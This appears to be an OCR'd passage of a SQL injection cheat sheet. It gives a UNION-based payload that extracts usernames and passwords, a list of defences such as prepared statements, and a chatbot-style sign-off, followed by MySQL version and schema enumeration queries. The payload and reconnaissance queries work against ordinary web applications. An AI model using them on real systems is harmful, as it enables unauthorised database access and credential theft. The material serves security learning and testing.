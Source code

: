 ### **5.5 UNION Injection**

```sql
' UNION SELECT null, username, password FROM users --
```

---

## **6. General SQL Injection Protection Methods**

To prevent SQL Injection, ensure:
1. **Use Prepared Statements** – Always bind user input to avoid injection.
2. **Use ORM (Object-Relational Mapping) Libraries** – These libraries automatically prevent most SQL injection techniques.
3. **Validate and Sanitize Input** – Reject inputs containing `'`, `"`, `--`, `;`, `/*`, etc.
4. **Least Privilege Principle** – Restrict database access rights as much as possible (e.g., avoid using high-privilege accounts for web applications).
5. **Error Handling** – Avoid showing detailed database error messages to the user.

---

## **Conclusion**
By learning and understanding the above commands for each database, you can:
- **Identify vulnerable points** in an application.
- **Test** different techniques to inject SQL code.
- **Exploit** poorly-secured systems for educational and ethical hacking purposes (CTFs, security testing).

Always remember that SQL Injection is illegal unless you have explicit permission (ethical hacking or CTF challenges).

If you need more details or have specific questions about a database, let me know! 

---

Feel free to copy and paste this directly into your notes! If you need more detailed examples or clarification on any point, don’t hesitate to ask.


mySQL

```sql
select version();
```

```sql
select current_user();
```

```sql
select table_schema from information_schema.tables group by table_schema;
```

```sql
select table_name from information_schema.tables where table_schema = 'app';
```
